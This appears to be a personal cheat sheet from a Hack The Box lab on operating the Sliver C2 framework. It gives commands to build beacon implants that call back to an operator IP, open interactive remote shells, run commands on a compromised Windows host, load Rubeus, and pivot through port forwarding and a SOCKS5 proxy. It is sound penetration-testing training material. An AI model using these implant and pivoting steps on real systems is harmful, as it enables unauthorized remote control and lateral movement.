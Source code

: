 # Sliver C2  
## Generate a beacon  
sliver > `generate beacon --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc1.exe`  
For linux: `generate beacon --os linux --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc2`  
    
## Setup the listener  
sliver > `mtls --lhost 10.10.16.20 --lport 80`  

## Navigate  
### Beacons  
sliver > `jobs`   
sliver > `beacons`  
sliver > `use 94ba864f`  
  
[*] Active beacon PERFECT_WALL (94ba864f-991f-4a8f-9242-06c1e66d47b6)    
      
OR     
sliver > `use beacons`   
Select the beacon using arrows to move    
  
### Sessions (interactive)    
Once in the beacon shell, it is possible to turn the beacon shell into a session (interactive) shell with the following command :   
sliver (SOLID_TINDERBOX) > `interactive`    
    
The new session appears :    
sliver (SOLID_TINDERBOX) > `sessions`     
| ID       | Transport | Remote Address     | Hostname | Username                      | Operating System | Health  |
| -------- | --------- | ------------------ | -------- | ----------------------------- | ---------------- | ------- |
| 437faed6 | mtls      | 10.10.110.10:51443 | cywebdw  | NT AUTHORITY\\NETWORK SERVICE | windows/amd64    | [ALIVE] | 
  
sliver (SOLID_TINDERBOX) > `use 437faed6`    
Now we got an interactive session shell.    

## Execute commands in a session   
sliver (PERFECT_WALL) > `execute -o <command>`  

## Load tools  
sliver (PERFECT_WALL) > `armory install rubeus`  

## Port forwarding  
sliver (FORWARD_SPIRITUAL) > `portfwd add -r 10.10.20.10:8161`  
[*] Port forwarding 127.0.0.1:8080 -> 10.10.20.10:8161  

Now the ActiveMQ web interface is accessible through http://127.0.0.1:8080/    

### SOCKS5 Proxy  
**In the current interactive session**
sliver (CAUTIOUS_FILTH) > `socks5 start` 
[*] Started SOCKS5 127.0.0.1 1081  
  
Then make sure to add `socks5 127.0.0.1 1081` in `/etc/proxychains.conf` and you can use `proxychains <command>`  
  

  
  





